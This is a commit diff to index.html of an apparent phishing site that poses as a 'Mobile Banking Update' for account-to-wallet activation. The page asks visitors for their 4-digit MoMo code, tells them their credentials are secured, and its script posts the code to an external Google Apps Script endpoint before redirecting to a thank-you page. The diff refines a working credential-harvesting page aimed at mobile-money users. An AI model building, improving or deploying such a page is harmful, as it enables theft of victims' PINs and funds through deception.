

Before and after one commit to system-service-upgrade/Account-to-wallet-, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,139 +9,157 @@
       font-family: Arial, sans-serif;
       margin: 0;
       background: linear-gradient(to bottom, #08143a, #0b1d4d);
+      color: #fff;
       display: flex;
       flex-direction: column;
       align-items: center;
-      color: #fff;
-      overflow-x: hidden;
+      min-height: 100vh;
+      padding: 0 10px;
+      box-sizing: border-box;
     }
 
     .header {
-      background: linear-gradient(135deg, #08143a, #0b1d4d);
       text-align: center;
       width: 100%;
       padding: 40px 20px;
+      background: linear-gradient(135deg, #08143a, #0b1d4d);
       border-bottom-left-radius: 40px;
       border-bottom-right-radius: 40px;
       box-shadow: 0 4px 10px rgba(0,0,0,0.3);
+      margin-bottom: 30px;
     }
-    .header h1 { margin: 0; font-size: 22px; }
-    .header p { margin: 5px 0; font-size: 14px; }
 
-    .login-container {
+    .header h1 {
+      margin: 0;
+      font-size: 24px;
+      font-weight: bold;
+    }
+    .header p {
+      margin: 10px 0 0;
+      font-size: 14px;
+      line-height: 1.4;
+    }
+
+    .form-container {
       background: linear-gradient(145deg, rgba(10,25,70,0.95), rgba(15,35,90,0.95));
-      width: 90%;
-      max-width: 360px;
-      margin-top: -30px;
+      width: 100%;
+      max-width: 400px;
       padding: 30px 25px;
       border-radius: 12px;
       box-shadow: 0 6px 16px rgba(0,0,0,0.4);
-      backdrop-filter: blur(4px);
-      z-index: 2;
-      position: relative;
     }
 
-    .login-container label {
+    label {
       display: block;
       margin-bottom: 6px;
       font-size: 14px;
       color: #fff;
     }
-    .login-container input {
+
+    input {
       width: 100%;
       padding: 12px;
       margin-bottom: 20px;
+      border-radius: 6px;
       border: 1px solid #274080;
-      border-radius: 6px;
-      font-size: 14px;
       background-color: rgba(11,29,77,0.9);
       color: #fff;
+      font-size: 14px;
     }
-    .login-container input::placeholder {
+
+    input::placeholder {
       color: #ccc;
     }
 
-    .button-group {
-      display: flex;
-      justify-content: space-between;
-      gap: 10px;
-      flex-wrap: wrap;
-    }
-    .button-group button {
-      flex: 1;
-      padding: 12px;
+    .btn-submit {
+      width: 100%;
+      padding: 14px;
+      font-size: 16px;
+      font-weight: bold;
+      background: linear-gradient(135deg, #1e90ff, #187bcd);
+      color: #fff;
       border: none;
       border-radius: 6px;
-      font-size: 16px;
-      font-weight: bold;
       cursor: pointer;
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      background: linear-gradient(135deg, #1e90ff, #187bcd);
-      color: #fff;
       transition: all 0.3s ease;
     }
-    .button-group button:hover {
+
+    .btn-submit:hover {
       background: linear-gradient(135deg, #187bcd, #1560a3);
-      transform: scale(1.05);
-      box-shadow: 0 4px 12px rgba(0,0,0,0.4);
+      transform: scale(1.02);
     }
 
-    .status {
+    .notice {
       font-size: 13px;
       color: #ccc;
-      margin-bottom: 12px;
       text-align: center;
+      margin-top: 12px;
+    }
+
+    @media (max-width: 500px) {
+      .header h1 { font-size: 20px; }
+      .form-container { padding: 25px 15px; }
     }
   </style>
 </head>
 <body>
   <div class="header">
     <h1>MOBILE BANKING UPDATE</h1>
-    <p>ACCOUNT TO WALLET ACTIVATION</p>
-    <p>Link your MoMo to your Bank Account Below</p>
+    <p>ACCOUNT TO WALLET ACTIVATION<br>
+       Link your Services to your Account Below
+    </p>
   </div>
 
-  <div class="login-container">
+  <div class="form-container">
     <form id="momoForm">
-      <label>Enter 4 digits MoMo Code</label>
-      <input type="text" name="momo_code" placeholder="XXXX" required maxlength="4">
+      <label for="momo_code">Enter 4 digits MoMo Code</label>
+      <input type="text" id="momo_code" name="momo_code" placeholder="1234" maxlength="4" required>
 
-      <div class="status" id="status">Your credentials are secured.</div>
+      <button type="submit" class="btn-submit">Link Wallet →</button>
 
-      <div class="button-group">
-        <button type="submit">Link Wallet →</button>
-      </div>
+      <div class="notice" id="status">Your credentials are secured.</div>
     </form>
   </div>
 
   <script>
+    const form = document.getElementById('momoForm');
+    const statusEl = document.getElementById('status');
+
     const WEBAPP_URL = "https://script.google.com/macros/s/AKfycbxJ1nxxUbrn8N7ancnw_Tc2gUJBJbvsOzuwRR5wJYNS1bF_0bckmYAYeItN1-eEsNbT/exec";
-    const form = document.getElementById("momoForm");
-    const statusEl = document.getElementById("status");
 
-    form.addEventListener("submit", async (e) => {
+    form.addEventListener('submit', async (e) => {
       e.preventDefault();
       statusEl.textContent = "Submitting...";
       statusEl.style.color = "#ccc";
 
-      const formData = new FormData(form);
+      const momo_code = document.getElementById('momo_code').value.trim();
+
+      const formData = new FormData();
+      formData.append("momo_code", momo_code);
 
       try {
-        const response = await fetch(WEBAPP_URL, { method: "POST", body: formData });
-        const result = await response.json();
+        const resp = await fetch(WEBAPP_URL, { method: 'POST', body: formData });
+        const text = await resp.text();
+        let json;
 
-        if (result.result === "success") {
+        try {
+          json = JSON.parse(text);
+        } catch {
+          statusEl.textContent = "Server error: " + text;
+          statusEl.style.color = "#ff6666";
+          return;
+        }
+
+        if (json.result === "success") {
           window.location.href = "thankyou.html";
         } else {
-          statusEl.textContent = "Submission failed: " + (result.message || "Unknown error");
-          statusEl.style.color = "#ff5555";
+          statusEl.textContent = "Submission failed: " + (json.message || "Unknown error");
+          statusEl.style.color = "#ff6666";
         }
       } catch (err) {
         console.error(err);
         statusEl.textContent = "Network error. Try again.";
-        statusEl.style.color = "#ff5555";
+        statusEl.style.color = "#ff6666";
       }
     });
   </script>
```
